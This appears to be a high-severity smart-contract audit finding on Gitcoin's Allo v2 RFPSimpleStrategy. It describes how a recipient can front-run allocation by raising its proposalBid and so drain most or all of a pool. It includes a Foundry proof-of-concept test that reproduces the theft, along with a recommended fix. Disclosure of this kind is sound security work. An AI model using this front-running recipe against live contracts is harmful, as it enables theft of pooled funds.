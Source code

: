 Clumsy Pecan Jay

high

# RFP recipient can steal pool funds without supplying all milestones by re-registering before allocation
## Summary

Due to a missing terms validation at allocation a `recipient` is able to update their `proposalBid`  just before the manager allocates them for the task.

The recipient can steal more then intended funds from the pool or the entire pool while providing only a single milestone 

## Vulnerability Detail

```solidity
    function _registerRecipient(bytes memory _data, address _sender)
        internal
        override
        onlyActivePool
        returns (address recipientId)
    {
--------
        // Get the recipient
        Recipient storage recipient = _recipients[recipientId];

        if (recipient.recipientStatus == Status.None) {
            // If the recipient status is 'None' add the recipient to the '_recipientIds' array
            _recipientIds.push(recipientId);
            emit Registered(recipientId, _data, _sender);
        } else {
            emit UpdatedRegistration(recipientId, _data, _sender);
        }
-------
        recipient.proposalBid = proposalBid;
        recipient.recipientStatus = Status.Pending;
    }
```

As can be seen above, a recipient can update their `proposalBid` as long as thee pool is `active` (before allocation). 

This enable a malicious recipient to change their  `proposalBid`  at the same block as the manager calls `allocate`:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L395
```solidity
    function _allocate(bytes memory _data, address _sender)
        internal
        virtual
        override
        nonReentrant
        onlyActivePool
        onlyPoolManager(_sender)
    {
        // Decode the '_data'
        acceptedRecipientId = abi.decode(_data, (address));
        Recipient storage recipient = _recipients[acceptedRecipientId];
-----
        // Update status of acceptedRecipientId to accepted
        recipient.recipientStatus = Status.Accepted;

        _setPoolActive(false);
-----
    }
```

As can be seen above - although `allocate` is used to chose the recipient based on the terms, there are no validation of the recipient terms (`proposalBid`) 

After submission the manager will distribute the funds by calling `_distribute`
```solidity
    function _distribute(address[] memory, bytes memory, address _sender)
        internal
        virtual
        override
        onlyInactivePool
        onlyPoolManager(_sender)
    {
-------
        Recipient memory recipient = _recipients[acceptedRecipientId];
-------
        // Calculate the amount to be distributed for the milestone
        uint256 amount = (recipient.proposalBid * milestone.amountPercentage) / 1e18;

        // Get the pool, subtract the amount and transfer to the recipient
        poolAmount -= amount;
        _transferAmount(pool.token, recipient.recipientAddress, amount);
-------
    }
```

The updated `proposalBid` can be set to a value that will result in an `amount` equal to a higher then intended amount per milestone or the *entire pool amount.

Consider the following scenario:
1. Manager creates an RFP pool with `100 ETH`.
2. Manager sets `two` milestones with `70%` payment for first milestone and `30%` for second.
3. Multiple recipients apply but `Alice` applies with a cheap `proposalBid` of only `20 ETH`.
4. Since `Alice` proposal is cheap, the manager calls `allocate` to chose `Alice`.
5. `Alice` front-runs the call to `allocate` and re-registers updating her `proposalBid` to `100 ETH`. 
6. `Alice` completes the first milestone and submits it and the manager accepts the submission.
7. The manager calls `distribute` to move to the next milestone and pay `Alice` rewards of `14 ETH` however `70 ETH` is sent instead.

*Alice would be able to steal the entire pool if a single milestone is used.

## Impact

Theft of more then intended and potentially all pool funds.

## Code Snippet

Add the following test to `RFPSimpleStratagy.t.sol`
```solidity
    function test_stealPoolFunds() external {
        uint256 poolTotalBeforeFee = 100 ether;
        uint256 percentFee =  (poolTotalBeforeFee * 1e16) / 1e18;
        uint256 poolTotal = poolTotalBeforeFee - percentFee;

        // Fund pool with ~100 ether
        vm.deal(pool_admin(), 100 ether);
        vm.prank(pool_admin());
        allo().fundPool{value: poolTotalBeforeFee}(poolId, poolTotalBeforeFee);

        // Increase max bid to ~100 ether
        vm.prank(pool_admin());
        strategy.increaseMaxBid(poolTotal);

        // Register
        address sender = recipient();
        uint256 recipientFakeProposalBid = 20 ether;
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(recipientAddress(), false, recipientFakeProposalBid, metadata);
        vm.prank(address(allo()));
        address recipientIdReceived = strategy.registerRecipient(data, sender);

        // Set Milestones
        __setMilestones();

        // Front-run allocate
        data = abi.encode(recipientAddress(), false, poolTotal, metadata);
        vm.prank(address(allo()));
        recipientIdReceived = strategy.registerRecipient(data, sender);

        // Allocate
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientIdReceived), address(pool_admin()));

        // Submit milestone
        vm.prank(recipient());
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

        // Distribute
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());

        // Alice should receive 70% of the poolTotal (~70 eth)
        assertEq(recipientAddress().balance, (poolTotal * 7e17) / 1e18);
    }
```

To execute the test run:
```solidity
forge test --match-test "test_stealPoolFunds" -v
```

Expected output: 
```solidity
Running 1 test for test/foundry/strategies/RFPSimpleStrategy.t.sol:RFPSimpleStrategyTest
[PASS] test_stealPoolFunds() (gas: 607506)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.84ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
## Tool used

Manual Review

## Recommendation

At allocation - The expected `proposalBid` should be part of `data` and be validated
Add the following check:
```solidity
        // Decode the '_data'
        uint256 expectedProposalBid;
        (acceptedRecipientId, expectedProposalBid) = abi.decode(_data, (address, uint256));

        Recipient storage recipient = _recipients[acceptedRecipientId];

        if (acceptedRecipientId == address(0) || recipient.recipientStatus != Status.Pending || recipient.proposalBid != expectedProposalBid ) {
            revert RECIPIENT_ERROR(acceptedRecipientId);
        }
```